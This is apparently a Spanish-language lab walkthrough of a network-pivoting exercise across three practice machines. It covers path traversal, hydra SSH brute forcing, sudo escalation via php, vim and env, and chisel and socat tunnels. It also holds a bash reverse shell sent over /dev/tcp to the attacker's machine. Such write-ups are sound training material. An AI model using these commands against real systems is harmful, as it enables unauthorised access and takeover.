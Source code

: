 En este escenario tenemos distintas máquinas conectadas entre ellas en un escenario de pivoting en red:
```bash
sudo bash auto_deploy.sh inclusion.tar trust.tar upload.tar walkingcms.tar whereismywebshell.tar
```
![[Pasted image 20240421145412.png]]
## PRIMERA MÁQUINA
Comenzamos enumerando puertos abiertos de la primera de ellas:
![[Pasted image 20240421145443.png]]
Esto corre por el puerto 80:
![[Pasted image 20240421145519.png]]
Haciendo fuzzing web nos encontramos con el directorio /shop:
![[Pasted image 20240421145553.png]]
Nos encontramos con una web que nos chiva el parámetro del index.php que podemos utilizar para explotar alguna vulnerabilidad:
![[Pasted image 20240421145717.png]]
Probamos el siguiente payload:
```bash
http://10.10.10.2/shop/index.php?archivo=../../../../../../etc/passwd
```
Y leemos archivos internos de la máquina:
![[Pasted image 20240421145741.png]]
Vemos dos usuarios, donde probamos primero con el usuario manchi por fuerza bruta contra el protocolo SSH:
```bash
hydra -l manchi -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.2
```
![[Pasted image 20240421145824.png]]
Accedemos por SSH:
![[Pasted image 20240421145839.png]]
En este punto, vemos otro usuario llamado seller, que tras enumerar por distintas vías, no conseguimos pivotar a él, por lo que probamos en hacerle un ataque de fuerza bruta a su contraseña utilizando algún script para hacer esto mismo:
```bash
https://github.com/Maalfer/Sudo_BruteForce
```
![[Pasted image 20240421150124.png]]
Lo pasamos todo a la máquina víctima, el script junto con el rockyou:
![[Pasted image 20240421150425.png]]
```bash
bash Linux-Su-Force.sh seller rockyou.txt 
```
Y nos encuentra su contraseña:
![[Pasted image 20240421150503.png]]
Nos encontramos con el binario de /usr/bin/php:
![[Pasted image 20240421150542.png]]
Escalamos privilegios de la siguiente forma:
```bash
CMD="/bin/sh"
sudo /usr/bin/php -r "system('$CMD');"
```
![[Pasted image 20240421150637.png]]
Vemos una segunda interfaz para pivotar hacia la siguiente máquina:
![[Pasted image 20240421150740.png]]
Nos creamos nuevas conexiones en esta máquina:
![[Pasted image 20240421152143.png]]

En este punto, nos enviamos chisel:
![[Pasted image 20240421150931.png]]
Ahora desde la máquina atacante nos ponemos en la escucha con chisel:
```bash
chisel server --reverse -p 1234
```
![[Pasted image 20240421151056.png]]
Y nos conectamos desde la máquina víctima para poder ver desde nuestro Kali a la IP 20.20.20.2:
```bash
./chisel client 192.168.0.20:1234 R:socks
```
![[Pasted image 20240421151218.png]]
![[Pasted image 20240421151225.png]]
## MÁQUINA 2
Para hacer un escaneo de puertos a la siguiente máquina, debemos de utilizar los siguientes comandos de nmap:
```bash
proxychains nmap -sT -Pn -p- -sV --open -T5 -v -n 20.20.20.3 2>/dev/null
```
Donde nos encuentra los puertos 22 y 80 abiertos:
![[Pasted image 20240421153233.png]]
En el puerto 80 corre una plantilla de apache por defecto:
![[Pasted image 20240421152505.png]]
Y esto corre en el /secret.php:
![[Pasted image 20240421152831.png]]
Nos proporcionan un usuario donde podemos hacer fuerza bruta con hydra:
```bash
proxychains hydra -l mario -P /usr/share/wordlists/rockyou.txt ssh://20.20.20.3 -I
```
![[Pasted image 20240421152940.png]]
Tenemos el acceso:
```bash
mario:chocolate
```
Entramos pasando por el tunel:
```bash
proxychains ssh mario@20.20.20.3
```
![[Pasted image 20240421153033.png]]
Y vemos que podemos ejecutar vim como root:
![[Pasted image 20240421153109.png]]
```bash
sudo /usr/bin/vim -c ':!/bin/bash'
```
Y ya somos root:
![[Pasted image 20240421153159.png]]
Comprobamos las interfaces de red:
![[Pasted image 20240421153334.png]]
Y obtenemos varias sesiones para tener persistencia:
![[Pasted image 20240421153535.png]]
Ahora desde la máquina inicial nos compartimos el chisel a esta siguiente máquina mediante un servidor HTTP con python:
![[Pasted image 20240421153655.png]]
![[Pasted image 20240421153703.png]]
Ahora desde la primera máquina vamos a necesitar socat para ir pasando la conexión de chisel:
```bash
https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat
```
Lo obtenemos en la primera máquina:
![[Pasted image 20240421154200.png]]
Y decimos que todo lo que nos llegue a la IP 10.10.10.0/24 que lo mande a la máquina atacante por el puerto 1234, que es donde tenemos chisel escuchando:
```bash
./socat tcp-l:1111,fork,reuseaddr tcp:192.168.0.20:1234
```
![[Pasted image 20240421154643.png]]
Por tanto ahora que ya tenemos socat escuchando, vamos a usar chisel para enviar a la segunda interfaz de la primera máquina el nuevo tunel, que va a funcionar por el puerto 8888 por ejemplo:
```bash
./chisel client 20.20.20.2:1111 R:8888:socks
```
![[Pasted image 20240421155046.png]]
De tal forma que recibimos la conexión:
![[Pasted image 20240421155109.png]]
Ahora tenemos que editar el archivo proxychains.conf y vamos a editar el archivo de proxychains y descomentamos la línea donde dice scrict_chain:
![[Pasted image 20230816162618.png]]
Y comentamos esta línea:
![[Pasted image 20230816162719.png]]
Además de añadir este nuevo túnel en la parte de abajo:
![[Pasted image 20230816162645.png]]
Y ahora preparamos también el navegador para pasar por este otro nuevo túnel:
![[Pasted image 20240421155309.png]]
## MÁQUINA 3
Hacemos un escaneo de puertos con nmap a esta nueva dirección IP:
```bash
proxychains nmap -sT -Pn -p- -sV --open -T5 -v -n 30.30.30.3 2>/dev/null
```
![[Pasted image 20240421155840.png]]
Vemos que tenemos visibilidad con el puerto 80 de la 30.30.30.3:
![[Pasted image 20240421155827.png]]
Podemos hacer fuzzing web con gobuster pasando por el túnel de la siguiente forma:
```bash
gobuster dir -u http://30.30.30.3 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --proxy socks5://127.0.0.1:8888
```
![[Pasted image 20240421155947.png]]
Vemos el directorio uploads:
![[Pasted image 20240421160010.png]]
Preparamos la reverse shell:
![[Pasted image 20240421160101.png]]
![[Pasted image 20240421160122.png]]
Ahora tenemos que preparar socat para que la reverse shell vaya desde esta IP 30.30.30.3 hasta nuestro Kali, por lo que enviaremos socat a la máquina anterior, desde la 10.10.10.0/24 a la 20.20.20.0/24:
![[Pasted image 20240421160336.png]]
Ahora con socat digo que todo lo que reciba por el puerto 2222 quiero que lo envíe a la máquina 20.20.20.2 a su puerto 2222, y a su vez que la 20.20.20.2 envíe la reverse shell a la máquina Kali por el puerto 443:
```bash
./socat tcp-l:2222,fork,reuseaddr tcp:20.20.20.2:2222
./socat tcp-l:2222,fork,reuseaddr tcp:192.168.0.20:443
```
Y desde esta última máquina la reverse shell que vamos a generar será la siguiente:
```bash
bash -c "bash -i >& /dev/tcp/30.30.30.2/2222 0>&1"
```
![[Pasted image 20240421162044.png]]
Y con netcat habremos recibido la conexión:
![[Pasted image 20240421162101.png]]
Y ahora repetimos la misma conexión para poder tener varias sesiones, todas ellas recibiéndolas por el puerto 443:
![[Pasted image 20240421162401.png]]
Ejecutando el comando sudo -l vemos que como root podemos ejecutar el binario de env, por lo que ejecutamos el siguiente comando y escalamos a root:
```bash
sudo /usr/bin/env /bin/sh
```
Y ahora ya tenemos varias sesiones en esta máquina:
![[Pasted image 20240421162704.png]]
Ahora vamos a hacer que todo lo que reciba la máquina 1 por el puerto 3333 que lo mande a chisel para poder llegar a esta última máquina:
```bash
./socat tcp-l:333,fork,reuseaddr tcp:192.168.0.20:1234
```
![[Pasted image 20240421163748.png]]
Y a su vez que la máquina siguiente todo lo que reciba por el puerto 333 lo envía a la 20.20.20.2:
```bash
./socat tcp-l:333,fork,reuseaddr tcp:20.20.20.2
```
![[Pasted image 20240421163828.png]]
Y ahora ya desde la última máquina lanzamos la conexión de chisel pasando por socat entre todos los túneles hasta nuestra máquina atacante:
```bash
./chisel client 30.30.30.2:333 R:9999:socks
```